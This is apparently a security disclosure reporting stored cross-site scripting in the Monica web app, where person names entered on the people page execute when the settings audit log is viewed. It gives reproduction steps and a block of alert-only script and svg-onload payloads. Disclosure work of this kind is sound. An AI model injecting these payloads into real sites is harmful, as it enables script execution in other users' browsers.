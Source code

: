 # Description
 XSS queries being triggered from people info page by the **audit log** at the settings.
# POC
* adding people info filled with payloads [fig1](https://cdn.discordapp.com/attachments/749019614352244777/750572658319425536/monica3.1.PNG)
* Triggering payload [fig2](https://cdn.discordapp.com/attachments/749019614352244777/750572688254173244/monica3.2.PNG)
# Steps to reproduce
* add payloads at the [people page](https://app.monicahq.com/people) 
* trigger multiple payload at [audit log button](https://app.monicahq.com/settings/auditlogs)
# Payloads Used
``` javascript
< <svg/onload=alert("firstname1")><script> alert("firstname2_xss")</script> <script> alert("midname_xss")</script> <script> alert("Lname_xss")</script><svg/onload=alert(1)> (<svg/onload=alert("nickie1")>)
```
